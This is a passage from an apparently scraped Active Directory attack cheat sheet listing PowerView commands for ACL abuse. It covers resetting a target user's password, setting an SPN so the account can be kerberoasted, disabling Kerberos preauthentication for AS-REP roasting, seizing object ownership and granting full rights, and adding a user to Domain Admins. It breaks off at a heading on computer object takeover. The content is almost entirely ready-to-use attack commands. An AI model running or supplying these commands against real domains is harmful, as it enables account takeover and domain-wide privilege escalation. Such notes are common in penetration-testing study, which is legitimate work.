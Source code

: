 ````
$UserPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
Set-DomainUserPassword -Identity <USERNAME> -AccountPassword $UserPassword
```

#### Generic write - Set SPN for user
- For example service ```HTTP/jumpbox```
- Then kerberoast the user [Kerberoast](#Kerberoast) 
- Execute command again to revert it
```
Set-DomainObject -Identity <USERNAME> -Set @{serviceprincipalname='<SERVICE>/<SPN>1'}
```

#### Generic write - Add preauthnotreq flag
- Then as-repreoast the user [AS-REP Roasting](#AS-REP-Roasting) 
- Execute command again to revert it
```
Set-DomainObject -Identity <USERNAME> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### Write owner - Change owner and give generic all
- Use ```Remove-ObjectAcl``` and ```Set-DomainObjectOwner``` again to remove the ACL's
```
Set-DomainObjectOwner -Identity <TARGET> -OwnerIdentity <NEW OWNER> -Verbose
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose

# Check who is owner 
Get-DomainObject -Identity <TARGET> -SecurityMasks Owner | select samaccountname, Owner
Get-DomainObject -Identity <SID>

# Check new rights - First get the SID of the user you want to check if he has permissions on target user
Get-Domainuser <USERNAME>
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

### Permissions on a group
- GenericAll permission on a Group, Write permission, Write-Owner permission GenericWrite or Self permission

#### Add user to a group 
```
Add-DomainGroupMember -Identity "<GROUP>" -Members <USER> -Verbose
net group "Domain Admins" analyst1 /domain /add
```

### Permissions on a ComputerObject
#### Write owner - Change owner and give generic all
- Use ```Remove-ObjectAcl``` and ```Set-DomainObjectOwner``` again to remove the ACL's
```
Set-DomainObjectOwner -Identity <TARGET> -OwnerIdentity <NEW OWNER> -Verbose
Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All -Verbose

# Check who is owner 
Get-DomainObject -Identity <TARGET> -SecurityMasks Owner | select samaccountname, Owner
Get-DomainObject -Identity <SID>

# Check new rights - First get the SID of the user you want to check if he has permissions on target user
Get-Domainuser <USERNAME>
Get-DomainObjectAcl -SamAccountName <TARGET USER> -ResolveGUIDs | ? {$_.SecurityIdentifier -eq "<SID>"}
```

#### GenericWrite - Computer object takeover
````